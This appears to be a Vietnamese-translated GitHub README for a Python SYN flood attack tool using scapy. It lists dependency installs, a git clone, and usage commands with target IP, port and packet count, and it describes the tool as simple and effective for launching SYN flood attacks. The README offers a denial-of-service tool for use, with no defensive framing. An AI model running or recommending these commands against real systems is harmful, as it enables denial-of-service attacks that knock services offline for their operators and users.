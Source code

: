 # Python2/3-SYN-Flood-Attack-Tool

[![](https://img.shields.io/github/issues/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/issues)
[![](https://img.shields.io/github/stars/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/stargazers)
[![](https://img.shields.io/github/forks/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/network/members)

Công cụ tấn công lũ lụt Python SYN

Bạn có thể bắt đầu cuộc tấn công SYN Flood bằng công cụ này.

Đơn giản và hiệu quả.

## Sự phụ thuộc
```
apt install python-scapy
apt install python3-scapy
```

## Cài đặt

```
git clone https://github.com/DauDau432/SYN-Flood-Attack-Tool
cd Python-SYN-Flood-Attack-Tool
```

## Cách sử dụng

```
python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```
```
cách sử dụng: py3_synflood_cmd.py [--help] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]
đối số tùy chọn:
  --help, -h hiển thị thông báo trợ giúp này và thoát
  --target TARGET, -t TARGET
địa chỉ IP mục tiêu
  --port PORT, -p PORT số cổng mục tiêu
  --count COUNT, -c ĐẾM
số lượng gói tin
  --version, -v hiển thị số phiên bản của chương trình và thoát

ví dụ: python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 1
```

![alt tag](https://emreovunc.com/projects/python_synflood_attack_cmd.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_01.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_02.png)
